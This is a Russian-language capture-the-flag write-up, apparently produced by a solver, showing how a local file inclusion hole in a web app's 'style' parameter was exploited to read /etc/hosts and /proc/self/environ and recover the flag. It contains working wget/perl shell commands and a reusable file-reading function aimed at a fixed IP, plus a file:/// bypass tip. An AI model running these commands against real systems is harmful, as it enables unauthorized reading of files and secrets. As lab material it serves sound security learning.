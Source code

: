  воспользовался уязвимостью LFI: сервер принимает путь из параметра style на /setcookie, читает соответствующий файл и вставляет его содержимое внутрь тега <style> на главной странице. Я отправлял style=/etc/hosts, из ответа брал Set-Cookie (JWT), потом с этим cookie запрашивал / и извлекал байты между <style>…</style>, убедившись по /etc/hosts, что чтение работает. Далее тем же способом прочитал /proc/self/environ (заменив нулевые байты на переводы строк) и нашёл переменную CTF_FLAG=YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3, а для контекста проверил /proc/self/cmdline (python3, app.py) и PWD=/app. Таким образом флаг получен без подбора секрета JWT — через включение файлов.


Коротко: я воспользовался уязвимостью LFI (Local File Inclusion) в параметре style на эндпоинте /setcookie. Сервер берёт путь из style, читает соответствующий файл и вставляет его содержимое внутри тега <style>...</style> на главной странице. Я автоматизировал это одной функцией оболочки, затем прочитал /proc/self/environ и нашёл переменную окружения с флагом.

Шаги и команды:

1) Проверил уязвимость чтением /etc/hosts
•  Сначала получаю cookie, установив style=/etc/hosts, потом запрашиваю главную страницу и извлекаю содержимое последнего <style>:
bash


tok=$(wget -qS --save-headers -O- --post-data "style=/etc/hosts" http://158.160.39.5:13355/setcookie 2>&1 \
      | sed -n 's/^  [sS]et-[cC]ookie: cookie=\([^;]*\);.*/\1/p' | tail -n 1)
wget -qO- --header "Cookie: cookie=$tok" http://158.160.39.5:13355/ \
  | perl -0777 -ne 'my @m = ($_ =~ m{<style[^>]*>(.*?)</style>}sig); print $m[-1] if @m;'


Ожидаемый вывод — содержимое /etc/hosts (строки с 127.0.0.1/localhost и т. п.). Это подтвердило LFI.

2) Сделал удобную функцию для чтения любого файла через style
bash


get_style() {
  path="$1"
  tok=$(wget -qS --save-headers -O- --post-data "style=$path" http://158.160.39.5:13355/setcookie 2>&1 \
        | sed -n 's/^  [sS]et-[cC]ookie: cookie=\([^;]*\);.*/\1/p' | tail -n 1)
  wget -qO- --header "Cookie: cookie=$tok" http://158.160.39.5:13355/ \
    | perl -0777 -ne 'my @m = ($_ =~ m{<style[^>]*>(.*?)</style>}sig); print $m[-1] if @m;'
}


3) Прочитал переменные окружения процесса веб-приложения
•  /proc/self/environ разделён нулевыми байтами, поэтому заменил их на переносы строк:
bash


get_style /proc/self/environ | tr '\0' '\n'


Ключевые строки из вывода:
text

PWD=/app
HOME=/root
CTF_FLAG=YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3

4) Дополнительно проверил командную строку процесса
bash
Ожидаемый результат:

python3
app.py

text
Итог:
•  Флаг найден в переменной окружения: YANDEX_CsS_s0_sTyl1sh_So_s1Mpl3
•  Рабочая директория приложения: /app
•  Процесс: python3 app.py

Подсказка: если прямой путь не сработает, иногда помогает схема file:/// (например, style=file:///etc/hosts).

